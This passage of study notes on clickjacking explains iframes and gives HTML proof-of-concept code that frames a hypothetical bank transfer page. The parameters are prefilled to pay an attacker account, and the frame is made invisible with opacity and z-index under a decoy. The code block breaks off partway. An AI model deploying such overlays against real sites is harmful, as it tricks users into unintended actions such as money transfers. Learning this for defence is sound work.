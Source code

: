 # What is clickjacking
 Clickjacking, or user-interface redressing, is an attack that tricks users into clicking a malicious button that has been made to look legitimate. Attackers achieve this by using HTML page-overlay techniques to hide one web page within another.
==Note that clickjacking is rarely considered in scope for bug bounty programs, as it usually involves a lot of user interaction on the victim’s part==
# Mechanisms
Clickjacking relies on an HTML feature called an `iframe`. HTML iframes allow developers to embed one web page within another by placing an `<iframe>` tag on the page, and then specifying the URL to frame in the tag’s src attribute.

Iframes useful as it allow you to embed other internet resources, like videos and audio, ex: 

```html
<iframe width="560" height="315"
src="https://www.youtube.com/embed/d1192Sqk" frameborder="0"
allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" 
allowfullscreen>
</iframe>
```

Let’s say that `example.com` is a banking site that includes a page for transferring your money with a click of a button.
You can access the balance transfer page with the URL `https:// www.example.com/transfer_money`, This URL accepts two parameters: the recipient account ID and the transfer amount If you visit the URL with these parameters present, such as `https://www.example.com/transfer_money?recipient=RECIPIENT_ACCOUNT &amount=AMOUNT_TO_TRANSFER`, the HTML form on the page will appear prefilled 
![[../../Media/Web AppSec Images/Pasted image 20240203194531.png]]

Now imagine that an attacker embeds this sensitive banking page in an `iframe` on their own site, like this:
```html
<!--This iframe embeds the URL for the balance transfer page -->
<html>
 <h3>Welcome to my site!</h3>
 <iframe src="https://www.example.com/transfer_money?
 recipient=attacker_account_12345&amount=5000" 
 width="500" height="500">
 </iframe>
</html>
```

Take a look at the full HTML page example:
```html
<html>
 <style>
 #victim-site {
 width:500px;
Clickjacking   147
 height:500px;
 opacity:0.00001; /*We then make the iframe invisible by setting its opacity to a very low value*/
 z-index:1; /*higher z-index value will be on top*/
 }
 #decoy {
 position:absolute; /*set decoy element to absolute to make the decoy site overlap with the iframe containing the victim site, Without the absolute position directive, HTML would display these elements on separate parts of the screen*/
 width:500px;
 height:500px;
 z-index:-1;
 }
 </style>
 <div id="decoy">
```